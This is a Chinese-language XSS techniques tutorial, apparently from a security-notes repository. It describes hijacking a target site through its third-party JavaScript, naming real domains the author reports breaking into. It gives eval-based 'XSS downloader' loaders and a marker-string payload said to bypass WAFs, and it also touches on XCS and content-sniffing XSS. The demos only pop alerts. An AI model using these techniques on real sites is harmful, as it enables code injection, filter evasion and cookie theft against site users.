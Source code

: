 # XSS技巧

## 01. 前言

遗留的问题

```
问1：只能更改IP么？
答1：不是，这里只是一个例子，大家需要发散思维。Referer User-Agent Cookie 等都可以的。
问2：我一个站也是http头部获取用户信息地方存在注入，可否xss？
答2：存在注入说明你把用户信息放到数据库里了，如果不显示前/后台显现用户信息，则不存在XSS。
```

## 02. 第三方劫持 (外调J/C)
本方法是我看长短短贴代码时知晓的，这篇文章我只是把这个攻击手法整理了出来，来说明这个漏洞，这个攻击手法并不是我发现的，我也不是太清楚是谁。“第三方劫持”就是把资源域的服务器的权限拿下，替换相关资源，采用‘迂回式’的渗透方式。

** PS ** ：J/C指的是javascript、css，其实还包括flash、etc、html等等，只是这个不经常使用而已，所以就不说了。

从字面上大家也可以猜出来，这是种什么攻击手法。名字里的"外调"不是从目标网站上插入新的J/C。而是在目标网站上找到不是本站的J/C。然后渗透那个网站，重写J/C。来达到渗透目标网站。

可是要怎么找到非本站的J/C呢？！不要担心， “长短短”已经写好相关的代码了，获取非本站的J/C。

```
for(var i=0,tags=document.querySelectorAll('iframe[src],frame[src],script[src],link[rel=stylesheet],object[data],embed[src]'),tag;tag=tags[i];i++){
  var a = document.createElement('a');
  a.href = tag.src||tag.href||tag.data;
  if(a.hostname!=location.hostname){
    console.warn(location.hostname+' 发现第三方资源['+tag.localName+']:'+a.href);
  }
}
```

把这段输入在F12“审查元素”里”控制台”里，回车就OK。

OK，原理说完了。我们来个实例。

我们在http://www.zj4000.com/ 网站上使用上面的代码，获取到，其中有个www.xss8.pw的js。

![](/attackUsers/xss/image/xss-33.png)

那么我就渗透他试试，20分钟后…….好了，渗透完了。我们现在来重写JS，现在我们先测试下能不能用，我先在1.js里写上`alert(&#039;xss&#039;);`

![](/attackUsers/xss/image/xss-34.png)

现在，我们再来看看 www.zj4000.com 怎么样了。

![](/attackUsers/xss/image/xss-35.png)

看来，已经被成功调用了。我这里没有用css来说，因为js比较规范点，而且用css来实现我这上面的功能，同理SWF也可以实现上面的功能。我相信大家都会了，不需要我再多说什么了。

现在你已经掌握了一个可随时变化的储蓄xss，我们可以自己写个脚本，来获取目标的cookies。

这些我就不说了，我只是把这门冷门但是比较有潜力的攻击手法和大家说下。这个攻击手法比较有局限性，只要网站有着可以实现攻击环境， 那么的危害将会非常大。

想继续了解的可以看看黑哥写的WEBsec2-public.ppt

## 03 XSS downloader（XSS下载器）
此方法是由cnn4ry在《XSS跨站脚本攻击剖析与防御》里提起过。

这个技术其实就是把反射和储蓄结合起来，把核心代码写在网站上，然后以XSS触发并调用代码，实现攻击。

在《XSS跨转脚本攻击剖析与防御》里的代码不太正确，没有使用onreadystatechange的readyState来判断是否请求完成，也没有用status判断页面是否存在。导致没符合这几个条件的情况下就输出了，此时内容是空的，所以不会成功，我就自己写了一个ajax获取的。

下面是代码

```html
<html>
    <head>
        <title>ajax</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                             if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                             {
                                 request_text=xmlhttp.responseText;
                                 var a = request_text.indexOf("woaini")+6;
                                 var b = request_text.indexOf("niaiwo");
                                 eval(request_text.substring(a,b));
                             }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```

Ajax.php：

```
12345648745465465474woainialert('xss')niaiwoasd5165484613ejkasoidoaid\
```

这时，当你打开ajax.html，就会弹出对话框。如图：

![](/attackUsers/xss/image/xss-36.png)

现在我来说说代码的大致意思

ajax.html它的主要功能就是获取ajax.php里在woaini字符串和niaiwo之间的字符串，并把获取的字符串用eval的方式运行，

Ajax.php(可以为txt，或者html等等，不要太在意是php后缀)没什么主要的功能，但是他是这个技巧的核心，eval就是运行它里面的代码。

整个内容，你可以写很多没有用的字符串，但是eval运行的代码，必须是在woaini和niaiwo之间，切记！

因为篇幅有限，还有一种方式，我就不细说，说出原理 大家也因该明白了。

假设网站的留言板存在反射XSS，我想利用的话，我可以构造为on事件，或者伪协议(javascript:)来运行下面的代码

```
eval(document.boby.innerHTML.substring(document.boby.innerHTML.indexOf('woaini')+6,document.boby.innerHTML.indexOf('niaiwo')));
```

那我留言，内容为`woainialert(&#039;xss&#039;)niaiwo`，你就会发现弹出对话框了，这种方法隐蔽性强，利用方便，可以绕过很多的WAF。不一定非要用ajax来获取，也可以在本地使用`indexOf`和`substring`来完成。如果你想，你还可以使用javascript正则来获取指定内容，下面是代码：

1.html
```html
<html>
    <head>
        <title>ajax+正则匹配</title>
        <meta http-equiv="content-type" content="text/html;chaset=utf-8" />
    </head>
    
    <boby>
        <script>
            var xmlhttp;
            var request_text;
            if(window.XMLHttpRequest)
            {
                xmlhttp = new XMLHttpRequest();
            }
            else
            {
                xmlhttp = new ActiveXObject("Microsoft.XMLHTTP");
            }
            xmlhttp.onreadystatechange=function()
                                       {
                         if(xmlhttp.readyState==4 &&xmlhttp.status==200)
                         {
                             request_text=xmlhttp.responseText;
                             var text = request_text.match(/woaini(.*)niaiwo/i);
                             eval(text[1]);
                         }
                                       }
            xmlhttp.open("POST","ajax.php","true");
            xmlhttp.send();
        </script>
    </boby>
</html>
```

## 04. XCS
XCS就是利用浏览器来玩XSS，它的功能比普通上的XSS还要强大，因为利用浏览器协议漏洞，可以调用浏览器的API来实现下载覆盖本地文件(可以把它这个功能理解为挂马)。

XSC还可以控制浏览器的历史、设置、收藏夹等。因为之前黑哥在KCon大会上讲过了，我也就不在多说了。这是（传送门）黑哥对XCS所写的PPT，想了解的可以看看。

## 05. 页面渲染XSS
存在这个漏洞的浏览器除了chrome、firefox，其他的几乎都存在，现在这个漏洞已经没有了，但是我还说出来吧，大家可以当成一个思路。jpg(ie6下才会出现)、word等，都可以。

假如我当前页面存在txt文件，而txt文件内容为<script>alert('xss')</script>时，就会弹窗。因为浏览器把txt的内容当成html来输出了。大家设想下，当时的很多站点都可以上传txt，可想而知这个漏洞的危害性.



